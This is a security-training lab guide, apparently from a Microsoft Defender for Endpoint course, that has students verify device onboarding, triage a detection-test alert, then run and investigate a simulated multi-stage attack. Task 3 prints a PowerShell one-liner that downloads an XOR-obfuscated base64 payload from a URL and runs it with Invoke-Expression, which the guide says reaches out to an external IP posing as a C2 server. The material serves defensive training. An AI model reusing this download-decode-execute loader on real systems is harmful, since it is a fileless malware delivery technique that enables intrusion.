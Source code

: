 
# Module 4 - Lab 1 - Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint

## Lab scenario

You are a Security Operations Analyst working at a company that is implementing Microsoft Defender for Endpoint. Your manager plans to onboard a few devices to provide insight into required changes to the Security Operations (SecOps) team response procedures.

To explore the Defender for Endpoint attack mitigation capabilities, you will run two simulated attacks.

## Lab objectives
 In this lab, you will perform the following:
- Task 1: Verify Device onboarding
- Task 2: Investigate alerts and incidents
- Task 3: Simulate an Attack
- Task 4: Investigate the simulated attack as a single incident

## Estimated timing: 60 minutes

  ![](../Media/Mod4_L1_Ex2.png)
  
### Task 1: Verify Device onboarding

In this task, you will confirm that the device is onboarded successfully and create a test alert.

1. If you are not already at the Microsoft Defender XDR portal in your Microsoft Edge browser, go to (https://security.microsoft.com) and log in as Admin for your tenant.

1. In the left-hand menu, under the **Assets** area, select **Devices**. Please wait until WIN1 appears on the Devices page before you continue. Otherwise, you might need to repeat this task to see the alerts that will be generated later.

    >**Note:** If you have completed the onboarding process and don't see devices in the Devices list after an hour, it might indicate an onboarding or connectivity problem.

1. Select **Settings** from the left menu bar, then from the Settings page select **Endpoints**.

1. Select **Onboarding** in the Device Management section and make sure *"Windows 10 and 11"* is selected as an operating system. The *"First device onboarded"* message now shows *Completed*.

1. Scroll down and under the section *"2. Run a detection test"*, copy the detection test script by selecting the **Copy** button.  

1. In the Windows search bar of the WIN1 virtual machine, type **CMD** and choose **Run as Administrator** on the right pane for the Command Prompt app.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run. 

1. Paste the script by right-clicking in the **Administrator: Command Prompt** windows and press **Enter** to run it.

    > **Note:** The window closes automatically after successfully running the script, and after a few minutes alerts are generated in the Microsoft Defender XDR portal.

### Task 2: Investigate alerts and incidents

In this task, you will investigate the alerts and incidents generated by the onboarding detection test script in the previous task.

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Alerts**.

1. In the **Alerts** pane, select the alert named *Suspicious PowerShell commandline* to load its details.

1. Review the *Alert story* timeline, and then review the *Details* and *Recommendations* tabs.

1. Under the alert **View Alert Details** tab you can scroll down to the *Incident details* section and select the **Suspicious Powershell command line on one endpoint** link to open the incident.


1. Select the **Manage incident** link (with a pencil icon) and a new window blade appears.

    ![Picture 1](../Media/2024-07-18.png)


1. Select the toggle **Assign to**  and add your user account (Me) as the owner of the incident.

1. Under **Classification**, expand the drop-down menu.

1. Under **Informational, expected activity**, select **Security testing**.

1. Add any comments if desired and select **Save** to update the incident and Close.

    ![Picture 1](../Media/newcop.png)

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. In a real incident, the *Attack story* tab displays the *Incident graph*. **Hint:** Some tabs might be hidden due to the size of your display. Select the ellipsis tab (...) to make them appear.

  > **Congratulations** on completing the task! Now, it's time to validate it. Here are the steps:
  > - Hit the Validate button for the corresponding task. You can proceed to the next task if you receive a success message.
  > - If not, carefully read the error message and retry the step, following the instructions in the lab guide.
  > - If you need any assistance, please contact us at labs-support@spektrasystems.com. We are available 24/7 to help you out.

  <validation step="698fed0a-fe5f-42a4-ae1c-7b77559325fc" />


### Task 3: Simulate an Attack

> **Warning:** This simulated attack is an excellent source of learning through practice. Only perform the attack in the instructions provided for this lab when using the course provided Azure tenant.  You may perform other simulated attacks *after* this training course is complete with this tenant.

In this task, you will simulate an attack on the WIN1 virtual machine and verify that the attack is detected and mitigated by Microsoft Defender for Endpoint.

1. On the WIN1 virtual machine, *right-click* the **Start** button and choose **Windows PowerShell (Admin)**.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run.

1. Copy and paste the following simulation script into the PowerShell window and press **Enter** to run it:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
    $xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://raw.githubusercontent.com/CloudLabs-MOC/SC-200T00A-Microsoft-Security-Operations-Analyst/refs/heads/prod-new/Allfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} }; Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Note:** If you experience errors (in red) while running the script, you can open the Notepad app and copy the script into a blank file. Make sure *word wrap* is turned on in Notepad. Then, copy and run each line of the script separately in PowerShell. Also, a PowerShell script (attacksim.ps1) was provided in the files downloaded at the beginning of the labs. To use the script, in **Windows PowerShell (Admin)** navigate to the *\Users\Admin\Desktop\Allfiles* folder and type *.\attacksim.ps1* and press **Enter** to run it.


1. The script will produce several lines of output and a message that it *Failed to resolve Domain Controllers in the domain*. A few seconds later, the *Notepad* app will open. A simulated attack code will be injected into Notepad. Keep the automatically generated Notepad instance open to experience the full scenario. The simulated attack code will attempt to communicate to an external IP address (simulating a C2 server).

### Task 4: Investigate the simulated attack as a single incident

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**.

1. A new incident called *Multi-stage incident involving Defense evasion & Discovery on one endpoint* is in the right pane. Select the incident name to load its details.

1. Under the *Attack story* tab, view the **Alerts** and **Incident details** panes to view the full **Incident graph**.

1. Mouse over and select the **Incident graph nodes** to review the *entities*.

1. Under the *Attack story* tab **Alerts** section (left-side) and select the **Play attack story** *Run* icon. This shows the attack timeline alert by alert and dynamically populates the *Incident graph*.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. **Hint:** Some tabs might be hidden due to the size of your display. Select the ellipsis tab (...) to make them appear.

1. Under the **Evidence and Response** tab, select **IP addresses** then select the displayed *IP address*. In the pop-up window review the IP address details scroll down and select the **Open IP address page** button.

1. Review the contents of the *Ip address* page *Overview, Incidents & alerts and Observed in organizations* tabs. Some tabs may not contain any information about the IP address.


## Review
In this lab, you have completed the following:
- Ran Simulated Attacks
- Investigated the Attacks
- Simulated an Attack
- Investigated the simulated attack as a single incident

## You have successfully completed the lab.

